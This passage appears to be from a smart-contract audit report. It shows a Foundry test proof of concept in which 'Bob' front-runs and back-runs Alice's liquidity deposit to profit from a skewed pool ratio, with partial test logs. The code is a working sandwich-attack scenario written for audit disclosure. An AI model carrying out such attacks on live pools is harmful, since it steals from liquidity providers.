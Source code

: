 ```js
		uint256 amountOut = pools.depositSwapWithdraw( token2, token1, 1 ether, 0, block.timestamp );
		console.log("swapped out token1 amount by Bob for 1 ether of token2 =", amountOut);
		// ******************************* CASE-1 ENDS **************************************
		
		
		// revert to the state of saved snapshot
		vm.revertTo(snapshot);
		// ******************************* CASE-2 : ATTACK SCENARIO; WITH SANDWICH ATTACK **************************************
		console.log("\n****** CASE-2 ******\n");
		// 1. Front-running by Bob
		// Bob swaps. inToken = token1, outToken = token2
		vm.prank(bob);
		uint256 amountOutFrontRunSwap = pools.depositSwapWithdraw( token1, token2, 1 ether, 0, block.timestamp );
		console.log("swapped out token2 amount by Bob for 1 ether of token1 ", amountOutFrontRunSwap);
		console.log("\nCase-2:\nNew ratio of token1 : token2 is %s : 1", token1.balanceOf( address(pools)) / token2.balanceOf( address(pools))); 
		console.log("actual balances token1 ; token2 = %s ; %s", token1.balanceOf( address(pools)), token2.balanceOf( address(pools))); 
		
		// 2. alice now adds liquidity
		assertEq(collateralAndLiquidity.userShareForPool(alice, pool1), 0, "Alice's initial liquidity share should be zero");
		vm.prank(alice);
		(alice_addedAmountA, alice_addedAmountB,) = collateralAndLiquidity.depositLiquidityAndIncreaseShare( token1, token2, alice_addedAmount1, alice_addedAmount2, 0 ether, block.timestamp, false );
		assertEq(alice_addedAmountA, alice_addedAmount1, "all of Alice's token1 not added");

		// 3. Bob swaps at this artificially jacked-up exchange-rate. inToken = token2, outToken = token1
		vm.prank(bob);
		uint256 amountOutAfterAttack = pools.depositSwapWithdraw( token2, token1, 1 ether, 0, block.timestamp );
		console.log("swapped out token1 amount by Bob for 1 ether of token2 ", amountOutAfterAttack);
		
		console.log("\nExtra token1 amount stolen by Bob in the attack =", amountOutAfterAttack - amountOut);
		assertGt(amountOutAfterAttack - amountOut, 0, "nothing stolen");
		// ******************************* CASE-2 ENDS **************************************
	}
}
```

Output:
```text
[PASS] test_sandwich_with_swap() (gas: 674539)
Logs:

Case-1:
Original ratio of token1 : token2 is 1 : 1
  actual balances token1 ; token2 = 1000000000000000000 ; 1000000000000000000


alice_addedAmountA = 10000000000000000000, alice_addedAmountB = 10000000000000000000


  swapped out token1 amount by Bob for 1 ether of token2 = 916666666666666666

****** CASE-2 ******

```